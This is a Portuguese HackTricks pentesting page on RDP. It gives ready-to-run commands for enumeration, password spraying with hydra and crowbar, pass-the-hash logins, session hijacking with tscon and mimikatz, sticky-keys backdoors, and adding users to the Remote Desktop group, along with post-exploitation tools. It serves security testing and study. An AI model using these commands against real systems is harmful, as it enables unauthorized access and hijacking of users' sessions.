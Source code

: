 # 3389 - Pentesting RDP

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Trabalha numa **empresa de cibersegurança**? Quer ver a sua **empresa anunciada no HackTricks**? ou quer ter acesso à **versão mais recente do PEASS ou baixar o HackTricks em PDF**? Verifique os [**PLANOS DE SUBSCRIÇÃO**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao grupo** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o repositório** [**hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="../.gitbook/assets/image (1) (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

[**DragonJAR Security Conference é um evento internacional de cibersegurança**](https://www.dragonjarcon.org/) com mais de uma década de existência que ocorrerá nos dias 7 e 8 de setembro de 2023 em Bogotá, Colômbia. É um evento de alto conteúdo técnico onde são apresentadas as últimas pesquisas em espanhol que atrai hackers e pesquisadores de todo o mundo.\
Registre-se agora no seguinte link e não perca esta grande conferência!:

{% embed url="https://www.dragonjarcon.org/" %}

## Informações Básicas

**Remote Desktop** Protocol (**RDP**) é um protocolo proprietário desenvolvido pela Microsoft, que fornece a um usuário uma interface gráfica para se conectar a outro computador através de uma conexão de rede. O usuário utiliza o software cliente **RDP** para esse fim, enquanto o outro computador deve executar o software servidor **RDP** (de [aqui](https://en.wikipedia.org/wiki/Remote\_Desktop\_Protocol)).

**Porta padrão:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeração

### Automática

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Ele verifica as criptografias disponíveis e a vulnerabilidade a DoS (sem causar DoS ao serviço) e obtém informações do NTLM Windows (versões).

### [Força Bruta](../generic-methodologies-and-resources/brute-force.md#rdp)

**Tenha cuidado, você pode bloquear contas**

### **Password Spraying**

**Tenha cuidado, você pode bloquear contas**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Conectar com credenciais/hash conhecidos
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Verificar credenciais conhecidas em serviços RDP

rdp\_check.py do impacket permite verificar se algumas credenciais são válidas para um serviço RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
## **Ataques**

### Roubo de sessão

Com **permissões de SYSTEM**, você pode acessar qualquer **sessão RDP aberta por qualquer usuário** sem a necessidade de conhecer a senha do proprietário.

**Obter sessões abertas:**
```
query user
```
**Acesso à sessão selecionada**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Agora você estará dentro da sessão RDP selecionada e poderá se passar por um usuário usando apenas ferramentas e recursos do Windows.

**Importante**: Quando você acessa sessões RDP ativas, você expulsará o usuário que estava utilizando-a.

Você poderia obter senhas do processo despejando-as, mas este método é muito mais rápido e permite interagir com as áreas de trabalho virtuais do usuário (senhas no bloco de notas sem terem sido salvas no disco, outras sessões RDP abertas em outras máquinas...)

#### **Mimikatz**

Você também poderia usar o mimikatz para fazer isso:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Combinando esta técnica com **stickykeys** ou **utilman você poderá acessar um CMD administrativo e qualquer sessão RDP a qualquer momento**

Você pode procurar RDPs que já foram comprometidos com uma dessas técnicas em: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### Injeção de Processo RDP

Se alguém de um domínio diferente ou com **privilégios melhores fizer login via RDP** no PC onde **você é um Admin**, você pode **injetar** seu beacon no **processo da sessão RDP** dele e agir como ele:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adicionando Usuário ao grupo RDP
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Ferramentas Automáticas

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** é um framework de pós-exploração criado em Powershell, projetado principalmente para automatizar o ataque **Shadow** em computadores Microsoft Windows. Essa vulnerabilidade (listada como um recurso pela Microsoft) permite que um atacante remoto **veja a área de trabalho de sua vítima sem o seu consentimento** e até a controle sob demanda, usando ferramentas nativas do próprio sistema operacional.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Controlar mouse e teclado de forma automatizada a partir da linha de comando
* Controlar a área de transferência de forma automatizada a partir da linha de comando
* Criar um proxy SOCKS no cliente que canaliza a comunicação de rede para o alvo via RDP
* Executar comandos SHELL e PowerShell arbitrários no alvo sem fazer upload de arquivos
* Fazer upload e download de arquivos para/de o alvo mesmo quando as transferências de arquivos estão desativadas no alvo

## Comandos Automáticos HackTricks
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="../.gitbook/assets/image (1) (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

[**DragonJAR Security Conference é um evento internacional de cibersegurança**](https://www.dragonjarcon.org/) com mais de uma década de existência, que ocorrerá nos dias 7 e 8 de setembro de 2023 em Bogotá, Colômbia. É um evento com grande conteúdo técnico onde são apresentadas as últimas pesquisas em espanhol, atraindo hackers e pesquisadores de todo o mundo.\
Registre-se agora no seguinte link e não perca esta grande conferência!:

{% embed url="https://www.dragonjarcon.org/" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de cibersegurança**? Quer ver sua **empresa anunciada no HackTricks**? Ou deseja ter acesso à **versão mais recente do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o repositório** [**hacktricks**](https://github.com/carlospolop/hacktricks) **e** [**hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
